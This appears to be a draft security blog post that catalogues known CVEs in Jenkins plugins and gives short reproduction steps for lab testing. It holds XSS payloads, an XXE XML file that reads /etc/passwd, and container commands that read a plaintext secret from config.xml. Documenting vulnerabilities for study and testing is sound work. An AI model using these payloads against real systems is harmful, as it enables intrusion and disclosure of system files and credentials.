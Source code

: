 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- [https://www.jenkins.io/security/advisories/](https://www.jenkins.io/security/advisories/)


## Missing permission


## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- [https://plugins.jenkins.io/dashboard-view/](https://plugins.jenkins.io/dashboard-view/)
	- Requires Jenkins 2.277.1
#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")
### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- [https://plugins.jenkins.io/jenkinswalldisplay/](https://plugins.jenkins.io/jenkinswalldisplay/) 
	- Requires Jenkins 1.580
#### Exploit
- click Wall Display
- `customTheme=</style><script>alert("Liodeus")</script>`

* * *

## CSRF

* * *

## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- [https://plugins.jenkins.io/pom2config/](https://plugins.jenkins.io/pom2config/)
	- Requires Jenkins 1.509.1
#### Exploit
- Create a new freestyle project
- Go on it - click Pom2Config
- Craft a .xml with exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

* * *

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1
#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- Client ID --> ThisIsASecretID
- Client Secret --> ThisIsASecretPASSWORD
- docker ps - get docker:dind name
- docker exec -it pensive_shannon /bin/bash
- cd /var/jenkins_home
- cat config.xml
- Secret in plain text

* * *

## Path traversal

* * *

## Agent-to-controller security bypass

* * *

## Arbitrary file read


## Denial of service

* * *

## Incorrect permission

* * *

## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- GitLab Web URI --> URL
- Save
- Go to localhost:8080
- You are redirect to URL

